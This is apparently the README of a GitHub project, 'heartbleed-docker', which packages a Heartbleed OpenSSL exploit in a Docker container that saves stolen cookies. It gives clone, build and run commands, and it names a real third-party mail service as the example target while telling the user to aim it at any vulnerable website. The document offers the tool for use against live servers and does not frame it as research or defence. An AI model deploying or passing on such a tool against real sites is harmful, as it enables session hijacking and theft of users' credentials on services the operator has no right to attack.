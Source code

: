 # heartbleed-docker

A docker container to exploit heartbleed OpenSSL, and save the cookies

### Build & Run
```
git clone https://github.com/arthurnn/heartbleed-docker.git
cd heartbleed-docker
docker build -t arthurnn/heartbleed .

// change the target url to a vulnerable website
docker run -d -p 9099:9099 arthurnn/heartbleed mail.yahoo.com
```
